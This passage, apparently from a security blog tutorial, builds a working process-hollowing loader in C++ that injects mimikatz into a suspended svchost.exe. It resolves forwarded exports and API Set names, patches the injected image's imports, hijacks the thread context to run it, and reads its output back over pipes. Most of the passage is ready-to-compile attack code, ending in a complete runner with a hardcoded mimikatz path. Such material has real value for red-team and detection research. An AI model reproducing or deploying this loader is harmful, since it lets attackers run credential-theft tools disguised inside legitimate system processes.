if ((UINT_PTR)addr >= (UINT_PTR)imageExportDirectory && (UINT_PTR)addr < (UINT_PTR)imageExportDirectory + exportDirectorySize)Once our condition passed, let’s look at the content of the address returned. 
We can observe, that our mimikatz try to import the function SystemFunction007 from the library advapi32.dll. The function appears to be a forwarded function since it passed our condition. When we look at the address from the function addresses array, we can observe that it contains forwarded library name and the forwarded function name with the format FORWARDED_LIB.FORWARDED_NAME.
At this point, this is pretty straightforward, we need to copy the content of the forwarded name and the forwarded library name in the arguments forwardedLib and forwardedName that we have previously put in argument of our function.
And finally we can call LoadLibraryA on the forwarded library and our function recursively.
DWORD forwardSize = 0;
DWORD forwardOffset = 0;
CHAR forwardName[MAX_PATH] = { 0 };
forwardSize = strlen((PCHAR)addr);
memcpy(forwardName, (PCHAR)addr, forwardSize);
// The forwardName has a format of DLLNAME.FunctionName so we split with '.'
for (forwardOffset = 0; forwardOffset < forwardSize; forwardOffset++) {
if (forwardName[forwardOffset] == '.') {
forwardName[forwardOffset] = 0;
break;
}
}
if (!forwardedLib)
// +1 -> null byte +4 -> .dll
forwardedLib = (PCHAR)LocalAlloc(LPTR, strlen(forwardName) + 1 + 4);
else
forwardedLib = (PCHAR)LocalReAlloc(forwardedLib, strlen(forwardName) + 1 + 4, LMEM_MOVEABLE | LMEM_ZEROINIT);
forwardedLib[strlen(forwardName)] = '.';
forwardedLib[strlen(forwardName) + 1] = 'd';
forwardedLib[strlen(forwardName) + 2] = 'l';
forwardedLib[strlen(forwardName) + 3] = 'l';
if(!forwardedName)
forwardedName = (PCHAR)LocalAlloc(LPTR, forwardSize - strlen(forwardName) + 1);
else
forwardedName = (PCHAR)LocalReAlloc(forwardedName, forwardSize - strlen(forwardName) + 1, LMEM_MOVEABLE | LMEM_ZEROINIT);
memcpy(forwardedLib, forwardName, strlen(forwardName));
memcpy(forwardedName, forwardName + forwardOffset + 1, forwardSize - strlen(forwardName));
return getAddrFunction(LoadLibraryA(forwardedLib), forwardedName, forwardedLib, forwardedName);Ok now, we can replace all our GetProcAddress by our own function.
Our new function loadImportTableLibs will now looks like it.
bool loadImportTableLibs(LPVOID pImage, PIMAGE_NT_HEADERS64 ntHeaders, LPPROCESS_INFORMATION pi, PVOID allocAddrOnTarget, DWORD offsetRdata)
{
...
PVOID addr = getAddrFunction(lib, functionName->Name, forwardedLib, forwardedName);
if (forwardedLib && forwardedName)
{
_dbg("Forwarded function found: %s. Need to import lib %s\r\n", functionName->Name, forwardedLib);
if (!remoteLoadLibrary(pi->hProcess, forwardedLib))
return FALSE;
}
...
}And if we test it:

We observe that our forwarded libraries are correctly loaded.
Now let’s adapt our fixImports function.
bool fixImports(LPVOID pImage, PIMAGE_NT_HEADERS64 ntHeaders, LPPROCESS_INFORMATION pi, PVOID allocAddrOnTarget, DWORD offsetRdata, HANDLE mod)
{
...
MODULEENTRY32W me32 = getModuleEntry(mod, moduleSearched);
if (me32.modBaseAddr != 0)
{
PIMAGE_THUNK_DATA thunk = NULL;
thunk = (PIMAGE_THUNK_DATA)((DWORD_PTR)pImage + importDescriptor->FirstThunk - offsetRdata);
while (thunk->u1.AddressOfData != NULL)
{
if (IMAGE_SNAP_BY_ORDINAL(thunk->u1.Ordinal))
{
...
}
else
{
PIMAGE_IMPORT_BY_NAME functionName = (PIMAGE_IMPORT_BY_NAME)((DWORD_PTR)pImage + thunk->u1.AddressOfData - offsetRdata);
PVOID remoteAddr = (PVOID)((PBYTE)(&thunk->u1.Function) + offsetRdata - (PBYTE)pImage + (PBYTE)allocAddrOnTarget);
PCHAR forwardedName = nullptr;
PCHAR forwardedLib = nullptr;
PVOID addrFunc = getAddrFunction(lib, functionName->Name, forwardedLib, forwardedName);
DWORD offset = 0;
ULONGLONG addrFix = 0;
// if forwardedLib and forwardedName are allocated -> it means we face a forwarded function
if (forwardedLib && forwardedName)
{
// need to convert our PCHAR to PWSTR
PWSTR forwardedLibWstr = strToWstr(forwardedLib);
// Find if the forwarded lib is loaded
MODULEENTRY32W fwMe32 = getModuleEntry(mod, forwardedLibWstr);
if (fwMe32.modBaseAddr == 0)
{
_err("Failed to find import %ws\r\n", forwardedLibWstr);
return FALSE;
}
HMODULE fwLib = LoadLibraryA(forwardedLib);
offset = (PBYTE)addrFunc - (PBYTE)fwLib;
addrFix = (ULONGLONG)((PBYTE)fwMe32.modBaseAddr + offset);
_dbg("[FORWARDED FUNCTION] %s is a forwarded function in %ws @ 0x%p\r\n", functionName->Name, fwMe32.szModule, fwMe32.modBaseAddr);
}
else
{
...
}
...
}Now let’s try this code to see if we can load mimikatz.

Our code stoped because it could not find the import api-ms-win-core-com-l1-1-0.dll.
If we look on top of our output to check which forwarded function we attempted to look for.
.
We can see that the function we attempt to patch in the IAT is CoInitializeEx which is supposed to be forwarded to the library api-ms-win-core-com-l1-1-0.dll.
Let’s look at it in a standalone code with a debugger.

As we can see, we loaded the api-ms-win-core-com-l1-1-0.dll library, however the debugger indicates us that it is in reality the library combase.dll.
It’s a mechanism created by Microsoft called the API Sets.
Handle API set
Definition of API Sets
API sets, also known as API set namespaces, are a concept introduced in Windows operating systems to help manage the evolution of the Windows API (Application Programming Interface) and provide a layer of abstraction for developers. API sets play a role in versioning and maintaining compatibility between different versions of Windows.
Windows implemented this in order to seperate functionalities through virtual names. It is also used to maintain compatibility across different Windows Versions.
You can find more details about it: Documentation Windows on API Sets
To sum up, API sets are names that are used as proxy for real DLLs. For our example api-ms-win-core-com-l1-1-0.dll is a proxy name for the dll combase.dll.
How to resolve API set names
When we look at the PEB structure referenced on Geoff Chappell website, we can observe that at the offset 0x68 we have a pointer to an attribute called ApiSetMap. This is where we can find the mapping of the API sets. However, when we look at the structure from winternl.h, we can see that the attribute is not referenced. By performing several tests and calculation, we can find that the ApiSetMap corresponds to the attribute: (PPEB)->Reserved9[0].
Once we retrieved the pointer to the ApiSetMap, we will need to cast it in a structure called API_SET_NAMESPACE.
typedef struct _API_SET_NAMESPACE
{
ULONG Version;
ULONG Size;
ULONG Flags;
ULONG Count;
ULONG EntryOffset;
ULONG HashOffset;
ULONG HashFactor;
} API_SET_NAMESPACE, *PAPI_SET_NAMESPACE;With this structure we can calculate the address of the first namespace entry which is a API_SET_NAMESPACE_ENTRY.
typedef struct _API_SET_NAMESPACE_ENTRY
{
ULONG Flags;
ULONG NameOffset;
ULONG NameLength;
ULONG HashedLength;
ULONG ValueOffset;
ULONG ValueCount;
} API_SET_NAMESPACE_ENTRY, *PAPI_SET_NAMESPACE_ENTRY;
// Retrieve PEB
PPEB peb = (PPEB)__readgsqword(0x60);
// Get API SET MAP
PAPI_SET_NAMESPACE apiMap = (PAPI_SET_NAMESPACE)peb->Reserved9[0];
// Get First Entry of API Set Map
PAPI_SET_NAMESPACE_ENTRY ApiMapEntry = PAPI_SET_NAMESPACE_ENTRY(apiMap->EntryOffset + (PBYTE)apiMap);Each namespace entry can have multiple entries. (Yes, a single api set can be a virtual name towards multiple DLLs). Each entry has the type PAPI_SET_VALUE_ENTRY in which we can find the corresponding dll name.
typedef struct _API_SET_VALUE_ENTRY {
ULONG Flags;
ULONG NameOffset;
ULONG NameLength;
ULONG ValueOffset;
ULONG ValueLength;
} API_SET_VALUE_ENTRY, * PAPI_SET_VALUE_ENTRY;When we wrap up everything.
BOOL resolveAPISet()
{
PPEB peb = (PPEB)__readgsqword(0x60);
PAPI_SET_NAMESPACE apiMap = (PAPI_SET_NAMESPACE)peb->Reserved9[0];
PWSTR ApiStrName = nullptr;
PAPI_SET_NAMESPACE_ENTRY ApiMapEntry = PAPI_SET_NAMESPACE_ENTRY(apiMap->EntryOffset + (PBYTE)apiMap);
for (int i = 0; i < apiMap->Count; ++i)
{
ApiStrName = (PWSTR)((PBYTE)apiMap + ApiMapEntry->NameOffset);
PAPI_SET_VALUE_ENTRY ApiValueEntry = (PAPI_SET_VALUE_ENTRY)((PBYTE)apiMap + ApiMapEntry->ValueOffset);
printf("API Set %ws -> ", ApiStrName);
for (int j = 0; j < ApiMapEntry->ValueCount; j++)
{
WCHAR apiRes[MAX_PATH] = { 0 };
memcpy(apiRes, ((PBYTE)apiMap + ApiValueEntry->ValueOffset), ApiValueEntry->ValueLength);
if (j + 1 == ApiMapEntry->ValueCount)
printf("%ws ", apiRes);
else
printf("%ws, ", apiRes);
ApiValueEntry++;
}
printf("\r\n");
ApiMapEntry++;
}
return TRUE;
}
You can find the structures in more details on m417z documentation of Windows Native API.
When we look at API set map, we found out that most of the API set names have only one corresponding DLL. After performing multiple tests, I realised that the edge case where we need to resolve the second DLL instead of the first was very rare. Therefore, to lighten our code we will take the first entry of the API set. However, keep in mind that you can encounter this edge case.
Also the last digit of the api set can differ from the one we are looking for. However, it is still the good resolution. For example: mimikatz has a forwarded function to the API Set name: api-ms-win-core-com-l1-1-0. However, when you enumerate your API Set Map, you will find out that the only similar API Set name is api-ms-win-core-com-l1-1-3. You will also notice that they resolve to the same DLL name. Therefore, when you resolve an API Set, it is advice to compare the name without the last digit.
BOOL resolveAPISet(PWCHAR apiToResolve, PWCHAR& apiResolved)
{
// Retrieve PEB
PPEB peb = (PPEB)__readgsqword(0x60);
// Get API SET MAP
PAPI_SET_NAMESPACE apiMap = (PAPI_SET_NAMESPACE)peb->Reserved9[0];
PWSTR ApiStrName = nullptr;
// Get First Entry of API Set Map
PAPI_SET_NAMESPACE_ENTRY ApiMapEntry = PAPI_SET_NAMESPACE_ENTRY(apiMap->EntryOffset + (PBYTE)apiMap);
for (int i = 0; i < apiMap->Count; ++i)
{
// -5 because we remove .dll and the last digit
// *2 because we have WCHAR
int len = lstrlenW(apiToResolve) * 2 - 5 * 2;
ApiStrName = (PWSTR)((PBYTE)apiMap + ApiMapEntry->NameOffset);
if (!memcmp(ApiStrName, apiToResolve,len ))
{
PAPI_SET_VALUE_ENTRY ApiValueEntry = (PAPI_SET_VALUE_ENTRY)((PBYTE)apiMap + ApiMapEntry->ValueOffset);
apiResolved = (PWCHAR)LocalAlloc(LPTR, ApiValueEntry->ValueLength + 2);
memcpy(apiResolved, (PWSTR)((PBYTE)apiMap + ApiValueEntry->ValueOffset), ApiValueEntry->ValueLength);
_dbg("ApiSetName: %ws -> ApiResolved: %ws \r\n", apiToResolve, apiResolved);
return TRUE;
}
ApiMapEntry++;
}
_err("Error in resolving API Set name: %ws \r\n", apiToResolve);
return FALSE;
}Now let’s modify our function fixImports:
bool fixImports(LPVOID pImage, PIMAGE_NT_HEADERS64 ntHeaders, LPPROCESS_INFORMATION pi, PVOID allocAddrOnTarget, DWORD offsetRdata, HANDLE mod)
{
...
if (forwardedLib && forwardedName)
{
PWSTR forwardedLibWstr = strToWstr(forwardedLib);
MODULEENTRY32W fwMe32 = getModuleEntry(mod, forwardedLibWstr);
if (fwMe32.modBaseAddr == 0)
{
PWSTR apiSetResolved = nullptr;
resolveAPISet(forwardedLibWstr, apiSetResolved);
fwMe32 = getModuleEntry(mod, apiSetResolved);
if (fwMe32.modBaseAddr == 0)
{
_err("Error in resolving the forwarded lib %ws\r\n", forwardedLibWstr);
return FALSE;
}
}
HMODULE fwLib = LoadLibraryA(forwardedLib);
offset = (PBYTE)addrFunc - (PBYTE)fwLib;
addrFix = (ULONGLONG)((PBYTE)fwMe32.modBaseAddr + offset);
_dbg("[FORWARDED FUNCTION] %s is a forwarded function in %ws @ 0x%p\r\n", functionName->Name, fwMe32.szModule, fwMe32.modBaseAddr);
}
...
}Let’s find out if our mimikatz successfuly works. To test, we will change slightly the function launchSuspendedProcess, to pass arguments to the command line. We will attempt to create a log file with mimikatz and execute the commands coffee and exit.
bool launchSusprendedProcess(LPSTR processName, LPPROCESS_INFORMATION& pi)
{
STARTUPINFOA si = { 0 };
if (!CreateProcessA(processName, (PCHAR)"C:\\Windows\\System32\\svchost.exe \"log C:\\Temp\\test.log\" \"coffee\" \"exit\"", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, &si, pi))
{
_err("[-] ERROR: Cannot create process %s", processName);
return FALSE;
}
_dbg("[+] Launching process %s with PID: %d\r\n", processName, pi->dwProcessId);
return TRUE;
}
Now we have a fully functionnal code that allows us to execute any PE through process hollowing technic. But, we would like now to retrieve the output directly in our program.
Final Touch: Retrieve output of our injected process
Windows created pipes which is a mechanism used to create interprocess communication. Therefore, we can redirect stdOut and stdErr to the created anonymous pipe and then read it.
First we will modify our launchSuspendedProcess.
BOOL launchSusprendedProcess(LPSTR processName, LPPROCESS_INFORMATION& pi, PCHAR args, HANDLE& hStdOutPipeRead)
{
HANDLE hStdOutPipeWrite = NULL;
SECURITY_ATTRIBUTES sa = { sizeof(SECURITY_ATTRIBUTES), NULL, TRUE };
STARTUPINFOA si = { 0 };
//Creating Pipe for output of exe
if (!CreatePipe(&hStdOutPipeRead, &hStdOutPipeWrite, &sa, 0))
{
_err("[CMD] Failed Output pipe");
return FALSE;
}
// Redirection STDOUT/STDERR into pipe
si.cb = sizeof(STARTUPINFOA);
si.dwFlags = STARTF_USESTDHANDLES;
si.hStdError = hStdOutPipeWrite;
si.hStdOutput = hStdOutPipeWrite;
PCHAR cmdLine = strConcat(processName, args);
if (!CreateProcessA(processName, cmdLine, NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, &si, pi))
{
_err("[-] ERROR: Cannot create process %s", processName);
return FALSE;
}
_dbg("[+] Launching process %s with PID: %d\r\n", processName, pi->dwProcessId);
return TRUE;
}Note that we have created a function used to create a cmdLine by concatenating the process name and the arguments.
PCHAR strConcat(PCHAR str1, PCHAR str2)
{
SIZE_T size1 = strlen(str1);
SIZE_T size2 = strlen(str2);
PCHAR out = (PCHAR)LocalAlloc(LPTR, size1 + size2 + 2);
if (!out)
return nullptr;
for (int i = 0; i < size1; i++)
{
out[i] = str1[i];
}
out[size1] = ' ';
for (int i = 0; i < size2; i++)
{
out[i + size1 + 1] = str2[i];
}
return out;
}Now our function will create a pipe and redirect the output to it.
And then to retrieve the output we will create two functions. One to read from the pipe
bool readPipe(HANDLE hPipe, PVOID* data, PDWORD dataLen)
{
DWORD bytesSize = 0;
// first get the size then parse
if (PeekNamedPipe(hPipe, NULL, 0, NULL, &bytesSize, NULL))
{
if (bytesSize > 0)
{
_dbg("[SMB] BytesSize => %d\n", bytesSize);
*data = LocalAlloc(LPTR, bytesSize + 1);
memset(*data, 0, bytesSize + 1);
if (ReadFile(hPipe, *data, bytesSize, &bytesSize, NULL))
{
_dbg("[SMB] BytesSize Read => %d\n", bytesSize);
}
else
{
_err("[SMB] ReadFile: Failed[%d]\n", GetLastError());
DATA_FREE(*data, bytesSize);
CloseHandle(hPipe);
return false;
}
}
}
else
{
_err("[SMB] PeekNamedPipe: Failed[%d]\n", GetLastError());
CloseHandle(hPipe);
return false;
}
}And an other that will read fragments of the output until the remote thread finished
VOID retrieveOutput(HANDLE hThread, HANDLE hStdOut)
{
PVOID commandOutput = nullptr;
DWORD bytesSize = 0;
while (WaitForSingleObject(hThread, 100) != WAIT_OBJECT_0) {
readPipe(hStdOut, &commandOutput, &bytesSize);
if (bytesSize > 0)
{
printf("%s\r\n", commandOutput);
DATA_FREE(commandOutput, bytesSize);
}
}
// Reading output one last time to check we don't leave anything behind...
readPipe(hStdOut, &commandOutput, &bytesSize);
if (bytesSize > 0)
{
printf("%s\r\n", commandOutput);
}
}Let’s try it now with this main function
int main(int argc, char** argv)
{
PIMAGE_NT_HEADERS64 peInjectNtHeaders = NULL;
LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
PCHAR args = (PCHAR)"coffee exit";
LPCSTR peInject = "C:\\Users\\user\\Downloads\\mimikatz_trunk\\x64\\mimikatz.exe";
LPCSTR target = "C:\\Windows\\System32\\svchost.exe";
LPVOID peToInjectContent = NULL;
DWORD peSize = 0;
HANDLE hStdOut = nullptr;
if (!loadPEFromDisk(peInject, peToInjectContent, &peSize))
exit(1);
if (!launchSusprendedProcess((LPSTR)target, pi, args, hStdOut))
exit(1);
if (!retrieveNtHeaders(peInjectNtHeaders, peToInjectContent))
exit(1);
LPVOID allocAddrOnTarget = NULL;
allocAddrOnTarget = VirtualAllocEx(pi->hProcess, NULL, peInjectNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
DWORD64 DeltaImageBase = (DWORD64)allocAddrOnTarget - peInjectNtHeaders->OptionalHeader.ImageBase;
if (allocAddrOnTarget == NULL)
{
_dbg("[-] ERROR: Failed to allocate memory on target process\r\n");
exit(1);
}
_dbg("[+] Memory allocate at : 0x%p\n", allocAddrOnTarget);
IMAGE_DATA_DIRECTORY relocationTable = peInjectNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
PIMAGE_SECTION_HEADER peToInjectRelocSection = NULL;
DWORD offsetRdata = 0;
if (!copyPEinTargetProcess(pi->hProcess, allocAddrOnTarget, peToInjectContent, peInjectNtHeaders, peToInjectRelocSection, &offsetRdata))
exit(1);
if (!fixRelocTable(pi->hProcess, peToInjectRelocSection, allocAddrOnTarget, peToInjectContent, DeltaImageBase, relocationTable))
exit(1);
if (!loadImportTableLibs(peToInjectContent, peInjectNtHeaders, pi, allocAddrOnTarget, offsetRdata))
exit(1);
HANDLE mod = getSnapShotProcess(pi->dwProcessId);
if (!fixImports(peToInjectContent, peInjectNtHeaders, pi, allocAddrOnTarget, offsetRdata, mod))
exit(1);
CONTEXT CTX = {};
CTX.ContextFlags = CONTEXT_FULL;
const BOOL bGetContext = GetThreadContext(pi->hThread, &CTX);
if (!bGetContext)
{
_dbg("[-] An error is occured when trying to get the thread context.\n");
return FALSE;
}
const BOOL bWritePEB = WriteProcessMemory(pi->hProcess, (LPVOID)(CTX.Rdx + 0x10), &peInjectNtHeaders->OptionalHeader.ImageBase, sizeof(DWORD64), nullptr);
if (!bWritePEB)
{
_dbg("[-] An error is occured when trying to write the image base in the PEB.\n");
return FALSE;
}
CTX.Rcx = (DWORD64)allocAddrOnTarget + peInjectNtHeaders->OptionalHeader.AddressOfEntryPoint;
const BOOL bSetContext = SetThreadContext(pi->hThread, &CTX);
if (!bSetContext)
{
_dbg("[-] An error is occured when trying to set the thread context.\n");
return FALSE;
}
ResumeThread(pi->hThread);
retrieveOutput(pi->hThread, hStdOut);
return 0;
}
We finally have a fully PE runner in a remote process and we can retrieve the output.
Plot Twist
Recently maldev academy published an update where they also perform process hollowing. However by reading it, I realized that if we copy our PE at its prefered image base address contained in its NT Header, we do not need to perform relocation nor IAT patching.
However, this technic allows to learn more about how the libraries are loaded in a process. Also, by using this technic, you can only copy the PE sections without the headers (header stomping). And you can avoid memory pages overlap by not forcing the address of the allocation.
Hope you enjoyed it and learned something in this too long blog post.
References
- ired.team that allowed me to learn about basic process hollowing
- maldev academy that allowed me to learn about API Set names
- Havoc source code that allowed me to learn more about forwarded functions
- 0xrick blog that allowed me to learn more about PE format
- Geoff Chappell website that allowed me to have a better understanding about Windows internal structures
- m417z Native API documentation that allowed me to access definition of Native Windows C structures